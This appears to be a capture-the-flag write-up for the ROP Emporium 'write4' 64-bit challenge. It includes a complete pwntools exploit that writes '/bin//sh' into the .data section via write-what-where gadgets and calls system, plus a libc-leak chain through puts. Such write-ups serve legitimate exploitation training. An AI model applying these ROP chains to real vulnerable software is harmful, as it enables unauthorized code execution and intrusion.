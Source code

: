 ```yaml
---
layout: post
title: ROP Emporium Challenge 3 - Write4 (64 bits)
excerpt_separator: <!--more-->
---
```


Description: *We'll be looking for gadgets that let us write a value to memory such as mov [reg], reg.*
<!--more-->

# write4

Link: https://ropemporium.com/challenge/write4.html


----------------------

## Approach 1: Write-What-Where Gadgets

### 1. Calculating RIP overwrite offset

First, we check the offset is still the same sending 41 "A" characters:

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/3_write4/images/Screenshot_1.jpg)



### 2. Write-what-where gadgets

"Frequently, you’ll want to use a ROP chain in order to write something into memory. You may want to place the string “/bin/sh” into memory in order to use it as a parameter for system(), or perhaps overwrite a Global Offset Table (GOT) entry in order to redirect execution. (...). 

A common write-what-where gadget is mov <[register]>, <register>. In Intel syntax, this means that the contents of the second register will be placed into the dereferenced pointer stored in the first register. Note the square brackets surrounding the register name, as the square brackets indicate dereferencing.

If you know you’ll want to write something to memory at some point, you may want to start by locating these write-what-where gadgets and then determining if you can control those registers through the use of other gadgets." ([source](https://trustfoundry.net/basic-rop-techniques-and-tricks/))

```
mov <[register]>, <register>

mov <[pointer to a writable area of memory]>, <contents you want to write into memory>
```

We can find all these gadgets using:

```
python /root/tools/ROPgadget/ROPgadget.py --binary write4 | grep mov | grep "\["
```

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/3_write4/images/Screenshot_2.jpg)

We have these *Write-What-Where* gadgets:

- *mov dword ptr [rsi], edi* (0x0000000000400821)

- *mov qword ptr [r14], r15* (0x0000000000400820)


Then we search for gadgets that could control rsi, edi (rdi), r14 and r15:

- RSI: *pop rsi ; pop r15 ; ret* (0x0000000000400891)

- RDI: *pop rdi ; ret* (0x0000000000400893)

- R14: *pop r14 ; pop r15 ; ret* (0x0000000000400890)

- R15: *pop r15 ; ret* (0x0000000000400892)


![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/3_write4/images/Screenshot_3.jpg)



### 3. Writable memory areas

Next we need to figure out where to write in memory. The best option would be the .data segment so let's get the address of the “.data” section in the binary (also, the .bss section is writable, it could work):

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/3_write4/images/Screenshot_4.jpg)

We will use R14 and R15 to write "/bin/sh" in memory, so:

- **writewhatwhere = 0x400820**

- **pop_r14_r15_ret = 0x400890**

- **writable_memory = 0x601050**

And the idea is to write a string such as "/bin//sh" in memory:

```
mov [r14], r15

mov [0x601050], "/bin//sh"
```

As we are working with 64 bits, we will send "/bin//sh" (a string with length 8, the size of the registers):

```
rop += p64(pop_r14_r15_ret) + p64(writable_memory) + "/bin//sh"
rop += p64(writewhatwhere)
```



### 4. Creating the exploit

After this, knowing the string "/bin//sh" will be located in *writable_memory*, we can make the same that in the previous challenge "split": 

```
rop += p64(pop_rdi) + p64(writable_memory) + p64(system)
```


## 5. Final exploit

Finally, the exploit is:

```
from pwn import *

context(arch='amd64', os='linux')
binary_name = 'write4'
p = process('./'+binary_name)
elf =  ELF(binary_name)
rop =  ROP(elf)

system = elf.sym["system"] 
pop_r14_r15_ret = (rop.find_gadget(['pop r14', 'pop r15', 'ret']))[0] # 0x400890
pop_r15_ret =     (rop.find_gadget(['pop r15', 'ret']))[0] # 0x400892
pop_rdi =         (rop.find_gadget(['pop rdi', 'ret']))[0]
writewhatwhere  = 0x400820
writable_memory = 0x601050

log.info("System address (.plt) - " + hex(system))
log.info("pop r14, pop r15, ret - " + hex(pop_r14_r15_ret))
log.info("pop r15, ret          - " + hex(pop_r15_ret))
log.info("pop rdi, ret          - " + hex(pop_rdi))
log.info("Write-what-where      - " + hex(writewhatwhere))
log.info(".data section start   - " + hex(writable_memory))


rop =  "A"*40
rop += p64(pop_r14_r15_ret) + p64(writable_memory) + "/bin//sh"
rop += p64(writewhatwhere)
rop += p64(pop_rdi) + p64(writable_memory) + p64(system)

p.recvuntil("> ")
p.send(rop)
p.interactive()
```

And it works!:

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/3_write4/images/Screenshot_5.jpg)


---------------


## Approach 2: Libc leakage approach

The first approach is leaking an address of libc to calculate libc base address and then make a system("/bin/sh") call


### Rop 1: Leaking puts address

First we will use the "puts()" function, which is present in the binary, to print the address in the section .got.plt of a function. In this case we will print the address of the same function "puts()", calling it using its address in .plt section and setting its address in .got.plt as the first and only argument if the function.

```
OFFSET = "A"*40
PUTS_PLT = elf.plt['puts']
MAIN_PLT = elf.symbols['main']
POP_RDI = (rop.find_gadget(['pop rdi', 'ret']))[0]
puts_GOT = elf.got["puts"]

rop1 = OFFSET + p64(POP_RDI) + p64(puts_GOT) + p64(PUTS_PLT) + p64(MAIN_PLT)
```


### Calculating libc base address

We will take the output, where the address has been printed, and will parse it. Then, knowing the offset of the "puts" function, we can calculate the base address of libc.

```
recieved = p.recvline().strip()
leak = u64(recieved.ljust(8, "\x00"))
libc.address = leak - libc.symbols["puts"]
```


### Rop 2: system("/bin/sh")

Finally, we will call the function "system" in the libc file, given that we already know the base address and the offset of the functions in these files are constant (they change between types of libc but the offset of the functions in the same libc file is the same). We will search for the string "/bin/sh" and set it as the first and only argument of the "system()" function.

```
BINSH = next(libc.search("/bin/sh"))
SYSTEM = libc.sym["system"]
EXIT = libc.sym["exit"]

rop2 = OFFSET + p64(POP_RDI) + p64(BINSH) + p64(SYSTEM) + p64(EXIT)
```


---------------

References:

- Write in memory: https://www.exploit-db.com/docs/english/28479-return-oriented-programming-(rop-ftw).pdf. 

- About wruite-what-where: https://trustfoundry.net/basic-rop-techniques-and-tricks/

- Another write-what-where exploit: https://failingsilently.wordpress.com/2017/12/14/rop-chain-shell/

- Libc leakage: https://book.hacktricks.xyz/exploiting/linux-exploiting-basic-esp/rop-leaking-libc-address
